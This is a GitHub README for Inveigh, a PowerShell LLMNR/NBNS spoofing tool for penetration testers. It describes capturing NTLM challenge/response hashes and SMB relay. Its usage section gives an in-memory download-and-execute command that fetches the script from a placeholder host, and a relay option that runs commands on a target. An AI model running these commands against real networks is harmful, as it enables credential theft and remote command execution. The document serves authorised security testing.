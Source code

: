 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.
10. SMB relay support is experimental at this point, use caution if employing on a pen test.

# Usage
Obtain an elevated administrator or SYSTEM shell.

Use a method to load the module:

To import with Import-Method:
Import-Module ./Inveigh.ps1

To import with dot source method:
. ./Inveigh.ps1

To load into memory using Invoke-Expression:
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:  
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpoofIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled:  
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Cmdlets
Invoke-Inveigh - Start Inveigh with or without parameters  
Get-Inveigh - Get queued console output  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Get-InveighHelp - List the cmdlets  
Watch-Inveigh - Enable real time console output  
Hide-Inveigh - Disable real time console output  
Clear-Inveigh - Clear capture, log, smbrelay, and spoof lists  
Stop-Inveigh - Stop Inveigh  

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveigh1](https://cloud.githubusercontent.com/assets/5897462/10326306/98bb11da-6c67-11e5-8c58-c9ed1107ec19.png)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive Powershell Session payloads
![inveigh4](https://cloud.githubusercontent.com/assets/5897462/10326315/be4689e8-6c67-11e5-80c6-c5fcb086ab40.png)
